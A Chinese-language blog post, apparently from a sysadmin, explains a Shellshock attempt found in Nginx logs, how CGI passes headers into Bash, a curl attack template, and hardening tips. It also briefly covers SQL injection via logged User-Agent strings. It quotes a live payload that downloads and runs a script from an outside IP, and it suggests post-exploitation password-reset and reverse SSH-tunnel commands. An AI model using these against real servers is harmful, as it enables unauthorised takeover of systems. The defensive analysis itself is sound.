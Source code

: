 #+TITLE: User Agent  and one of the SQL injection
#+AUTHOR: CJ
* Attack
  在记录了这么多的文档、笔记中，重要要在这个公众号中发一篇和攻击相关的记录了。
  写这篇内容的起因，是因为我在做 Nginx 日志分析的时候，用了 JSON 格式记录日志，
  但是某些不能被 JSON 解析的格式当做异常日志用邮件发了出来，其中一条日志引起了
  我的注意。
** Attack with Shellshock
   看到这个副标题的时候，大概会想到 2014 年 9 月闹的沸沸扬扬的事件，那个礼拜内，几乎
   我加过的所有行业内的 QQ 群都在讨论它，影响非常大。

*** Notification Mail
   在今天凌晨 01：30 的时候，我收到一封邮件，邮件内容是一条完整的 Nginx 日志，日志中
   的 User-Agent 是这样的

     "http_user_agent": "() { :;}; /bin/bash -c \x22rm -rf /tmp/w*;wget http://178.18.24.165/wp2 -O /tmp/wp2;curl -o /tmp/wp2 http://178.18.24.165/wp2;chmod +x /tmp/wp2;sh /tmp/wp2;rm -rf /tmp/w*\x22"

     在这里，\x22 表示单引号，将其中的命令忽略后大概会变成这样：

     () { :;}; /bin/bash -c 'command'

     这个先放在这里，接下来还要提到两个前。

*** What is the CGI and how it works
    事实上 CGI、FastCGI 等等这些都是不同的东西，但是和主题无关，所以这里统称它们为 CGI，
    CGI 的技术是用来在 WEB 中解析动态语言的而生成动态页面的技术，比如，Nginx 本身并没有
    处理任何语言的能力，但是它能将请求转发给能够处理这些请求的其他服务，这里的“其他服务”
    指的就是 CGI 了。

    在忽略各个 CGI 之间的区别的时候，我在这里用管理 FastCGI 的 PHP-FPM + Nginx 来举例，当
    Nginx 接收到一个请求之后，Nginx 将当前这个请求的所有参数：包括 /*环境变量*/ 、HTTP header
    等数据发送给 PHP-FPM，PHP-FPM 主进程接收到这个请求后，调用已启动或者如果需要的话，
    启动一个新的进程来处理。

    注意这里的 /*环境变量*/

*** Shellshock
    不得不说，我这篇小文章谢了好几个小时了，因为我在边看恐怖片边写，真受不了自己 - -|||

    在 Bash 4.3 之前的版本中，有一个 BUG，这个 BUG 事实上曾经被发现过，但是当时以为这个
    BUG 只有在登录系统之后才能被执行，所以没有人理会它，它被当成一个可忽略的小问题。

    而 CGI ！！！，我记得之前看过一篇文章，一个国外的大佬写的，大意是说 CGI 这种东西，是
    一个非常烂的技术，根本不应该被开发出来。

    再回到刚才那个 User-Agent 的例子中：

    () { :;}; /bin/bash -c 'command'

    () { :;}; 这个部分是在定义一个没有名字且没有任何操作的的空函数

    而在 Bash 4.3 之前的版本中，几乎所有版本都有这样一个问题，那就是在定义这样一个空函数时，
    并不检查尾部何时结束，而是执行所有 () { 之后的命令(操作)。

    所以，在本例中，当 Nginx 接收到一个请求后，会将它的 Header 发送给 CGI，而 CGI 会将这些
    数据放到系统的环境变量中，而在初始化这些环境变量的时候，Boom~ 这个 User-Agent 在初始化
    的过程中就会被执行了。

*** How to be a hacker easier
    即使你不会使用更高级的语言，光会一个 curl 便可以简单的攻击并且攻击一个基于 Nginx、
    其他 CGI 的程序，再加上一个低版本的 Bash，如果对方的 FPM 是跑在 root 账号下，并且
    允许 root 通过 ssh 远程登录的话，嘿嘿嘿~~~

    你只需要在 curl 命令行中指定你要执行的命令就好，比如:

    curl --user-agent "() { :;}; /bin/bash -c \x22 command \x22" http://xxx.xx.xxx/

    这里的 command 可以像上述示例中的行为一样，从你的服务器上下载一个脚本，然后
    执行它，比如，先修改密码，然后，嘿嘿嘿~~~，有的服务器是在内网的，通过 nat 映射
     HTTP 端口出网，但是，如果像下面这样：

     echo "somthing you wanna password" | passwd --stdin
     ssh -C -f -N -g -R 1235:localhost:22 <your ip> -p <your ssh port>

     这条命令的作用是在对方的服务器上执行，将对方的 22 端口的映射到你的服务器的 1235
     端口上，这样的话，即使对方是隐藏在 NAT 的网络里，你仍旧可以通过登录在你自己的
     服务器的 IP 的 1235 端口来登录到对方的服务器。

*** How to protect your system
    有了上边的例子，就要有防范别人对你这么干，所以，如果有以下这样几个条件，也就能防
    止大多数攻击了。
    1. 首先第一点就是升级你的 Bash，如果这个漏洞两年过去了你还没升级，呵呵呵呵~
    2. 任何服务都不应该跑在 root 账号下
    3. root 不应该被允许 ssh 登录
    4. 跑服务的用户不应该被允许登录，我通常的做法是将它的 shell 改为 /sbin/nologin
    5. 严格控制文件系统中各目录的权限，让这些用来跑服务的账号尽可能的减少对非工作目录
       读写的权限

** SQL Injection
   上例中说的是一种典型的注入攻击，Shell 注入，很有意思哈~

   现在简单说一个同样利用 User-Agent 来注入 SQL 的过程，事实上也是我正在犯的一个错，

    我做过，现在也在做一些日志分析的工具，将来也要做更大的日志分析平台，在我过去以及
    现在做的日志分析工具的中，我会把 User-Agent、以及其他信息直接保存到数据库中，Just
    like MySQL。

    所以，当你在直接把这些嵌套了 SQL 语句的内容保存的 MySQL 中的时候，这些语句将会被执行。

    大家更常见的是你的面向用户的程序中的 SQL 注入，所以会忽略类似这样的攻击，好吧，
    可能并不是所有人，但至少我是其中之一，呵呵哒

** End
   上一篇说了我会选择记录一篇 KeepAlived，看起来得下次了。
